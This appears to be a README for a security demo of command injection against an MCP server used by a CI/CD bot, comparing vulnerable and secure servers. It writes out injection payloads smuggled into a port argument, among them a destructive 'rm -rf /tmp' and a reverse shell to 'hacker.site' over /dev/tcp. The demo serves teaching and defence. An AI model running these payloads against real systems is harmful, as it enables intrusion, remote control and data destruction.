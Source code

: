 # 🚀 MCP Injection Demo: CI/CD Bot Exploitation

**"Automated CI/CD Bot + MCP Server: From Real-World Productivity to Real-World Exploits"**

## 🎯 Demo Scenario

Our CI/CD bot uses an MCP server to automate port/process checks before deployments. This is a common pattern in modern DevOps pipelines and LLM ops assistants.

**Normal Operation:**
- CI/CD bot checks if a dev server/container can start on required ports
- If not, it alerts the team or tries to resolve automatically
- Uses MCP server's `/which-app-on-port` API

**The Vulnerability:**
- Insecure parameter handling = catastrophic breach!
- One unchecked input can lead to total system compromise

## 🏗️ Project Structure

```
mcp-injection-demo/
├── server/
│   ├── mcp_vulnerable.js      # Vulnerable MCP server
│   ├── mcp_secure.js          # Secure MCP server
│   ├── agent_client.js        # CI/CD bot simulator
│   └── common/
│       ├── logger.js          # Centralized logging
│       ├── validation.js      # Input validation helpers
│       └── shell.js           # Shell command wrappers
├── exploits/
│   ├── type_coercion.md       # Type coercion attacks (main + additional)
│   ├── chain_exploit.md       # Chained command attacks (main + additional)
│   └── backdoor_attack.md     # Persistent backdoor attacks (main + additional)
├── showcase/
│   ├── attack_walkthrough.md  # Step-by-step attack demo
│   └── defense_walkthrough.md # Security demonstration
├── tests/
│   ├── test_vulnerable.js     # Attack tests
│   ├── test_secure.js         # Security tests
│   └── malicious_payloads.js  # Payload collection
└── docs/
    ├── why_command_injection_matters.md
    └── mitigation_strategies.md
```

## 🚨 Attack Types Demonstrated

### 1. **Type Coercion Attack**
- **Payload:** `8080; touch /tmp/evil; #`
- **Effect:** Appends new command, leaves system marker
- **Demo:** `npm run attack:type-coercion`

### 2. **Chain Exploitation**
- **Payload:** `8080; echo '123; rm -rf /tmp/demo; #' #`
- **Effect:** First command's output pipes to second, triggering chained destructive actions
- **Demo:** `npm run attack:chain`

### 3. **Backdoor Attack**
- **Payload:** Creates persistent shell backdoor
- **Effect:** Full remote shell access
- **Demo:** `npm run attack:backdoor`

## 🧪 How to Run the Demo

### 1. Setup
```bash
npm install
cp .env.example .env
```

### 2. Start Vulnerable MCP Server
```bash
npm run start:vulnerable
```

### 3. Simulate CI/CD Bot Attacks

**Normal Operation:**
```bash
node server/agent_client.js --port=8080
```

**Type Coercion Attack:**
```bash
node server/agent_client.js --port="8080; touch /tmp/owned; #"
```

**Chain Attack:**
```bash
node server/agent_client.js --port="8080; echo '123; rm -rf /tmp; #' #"
```

**Backdoor Attack:**
```bash
node server/agent_client.js --port="8080; echo '#!/bin/bash' > /tmp/b.sh && echo 'bash -i >& /dev/tcp/hacker.site/4444 0>&1' >> /tmp/b.sh && chmod +x /tmp/b.sh && /tmp/b.sh &"
```

### 4. Observe System Changes
- Check `/tmp/owned`, `/tmp/b.sh` - side effects prove exploit worked!
- Review logs in `showcase/` folder

### 5. Switch to Secure Server
```bash
npm run start:secure
```
Run exact same payloads - they fail (are rejected) and are logged.

## 📊 Demo Presentation Flow

1. **Normal Case:** Show CI/CD bot working correctly
2. **Type Coercion:** Demonstrate command appending
3. **Chain Attack:** Show stage-two exploitation
4. **Backdoor:** Real persistent payload
5. **Secure Version:** Rerun attacks on secure server
6. **Comparison:** Show how easy it is to block with proper validation

## 🔒 Security Lessons

- **Input Validation:** Always validate beyond type system
- **Command Execution:** Use `execFile()` with argument arrays
- **Least Privilege:** Run services with minimal permissions
- **Monitoring:** Log and alert on suspicious patterns
- **Defense in Depth:** Multiple layers of protection

## 📁 Key Files

- `server/mcp_vulnerable.js` - Shows the vulnerable pattern
- `server/mcp_secure.js` - Shows the secure pattern
- `exploits/` - Contains all attack payloads (main exploits for presentation + additional for reference)
- `showcase/` - Step-by-step walkthroughs
- `tests/` - Automated attack and defense tests

## 🎯 What Judges See

- Real-world CI/CD bot leveraging real automation
- Attackers can pwn the system if one parameter is unchecked
- Clear code/validation notes showing how to block attacks
- Complete before/after demonstration with logs and system changes

---

**⚠️ WARNING: This is a security demo. Only run in isolated environments!** 